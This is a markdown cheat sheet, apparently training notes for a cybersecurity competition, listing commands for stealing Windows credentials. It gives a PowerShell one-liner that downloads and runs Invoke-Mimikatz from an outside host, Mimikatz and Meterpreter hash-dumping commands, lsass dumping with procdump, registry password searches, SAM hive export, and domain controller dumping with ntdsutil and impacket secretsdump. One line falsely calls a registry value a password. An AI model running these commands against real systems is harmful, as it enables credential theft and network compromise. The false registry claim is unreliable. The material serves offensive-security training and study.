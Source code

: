 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Dumping Credentials with Mimikatz and Other Tools
## Usefull Information
https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-credentials-from-lsass.exe-process-memory
https://www.offensive-security.com/metasploit-unleashed/mimikatz/

## Download
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

## Mimkatz Commands
Checking permissions:  
privilege::debug  
Dumping passwords:  
sekurlsa::logonpasswords  
Dumping passwords cleartext:  
sekurlsa::wdigest  

With Meterpreter you can use these following commands:  
hashdump  
load mimikatz  
help mimikatz  
mimikatz_command -f version  

Other Meterpreter commands which use Mimikatz
msv  
kerberos  
mimikatz_command -f samdump::hashes  

# Dumping Credentials without Mimikatz
## Dimping Lsass without mimikatz
1. Open Task Manager
2. Rignt click on lsass.exe

## Dumping with Procdump
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

## Creds in Registry
```powershell
reg query HKLM /f password /t REG_SZ /s
# or
reg query HKCU /f password /t REG_SZ /s
```
Passwords can be found with this filter
```powershell
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
value of notification packages is a password

## Dumping SAM Registry
```powershell
reg save hklm\system system
reg save hklm\sam sam
```

# Dumping a Domain Controller
## Dumping DC Passwords Locally
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

## Dumping DC Passwords Remotly (Password Required)
```powershell
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

